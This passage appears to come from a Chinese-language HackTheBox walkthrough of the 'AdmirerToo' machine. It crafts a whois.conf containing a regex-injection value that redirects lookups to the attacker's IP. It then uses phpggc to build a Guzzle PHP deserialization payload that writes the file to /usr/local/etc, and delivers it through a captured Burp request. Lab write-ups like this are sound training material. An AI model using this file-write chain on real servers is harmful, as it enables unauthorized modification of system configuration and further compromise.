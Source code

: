 ```
┌──(root💀kali)-[~/htb/admirertoo]
└─# echo "}]|. [10.10.14.169]" > whois.conf
```

当它放在盒子上时，看起来像这样:

```
jennifer@admirertoo:~$ cat /usr/local/etc/whois.conf
[{"Expires":1,"Discard":false,"Value":"}]|. [10.10.14.169]\n"}]
```

在正则表达式中，竖线是一个或，点是方括号内的匹配字符。这意味着尽管当 whois 解析 conf 文件时，它包含无效数据。导致它只使用括号内的字符。这是我们等待的 Kali IP 的有效 IP 地址。

让我们开始吧。首先创建我们的 whois.conf 文件:

```
┌──(root💀kali)-[~/htb/admirertoo]
└─# echo "}]|. [10.10.14.169]" > whois.conf
```

使用 phpgcc 对其进行序列化，并将其放入机器上的/usr/local/etc 文件夹中:

```
┌──(root💀kali)-[~/htb/admirertoo]
└─# phpggc -u --fast-destruct Guzzle/FW1 /usr/local/etc/whois.conf /root/htb/admirertoo/whois.conf
a%3A2%3A%7Bi%3A7<SNIP>Bb%3A0%3Bs%3A5%3A%22Value%22%3Bs%3A20%3A%22%7D%5D%7C.+%5B10.10.14.169%5D%0A%22%3B%7D%7D%7Ds%3A39%3A%22%00GuzzleHttp%5CCookie%5CCookieJar%00strictMode%22%3BN%3B%7Di%3A7%3Bi%3A7%3B%7D
```

回到 Burp，像以前一样捕获活动数据网格请求，用我们的内容替换开始时的序列化内容:

![](img/92a4251e9be5ebe671b45000aa716494.png)

用 Burp 捕获请求，并将序列化的有效负载放入其中

发送到邮箱，然后切换到我们的 SSH 会话，以 Jennifer 的身份连接。确保文件在那里:

```
jennifer@admirertoo:~$ cat /usr/local/etc/whois.conf 
[{"Expires":1,"Discard":false,"Value":"}]|. [10.10.14.169]\n"}]
```
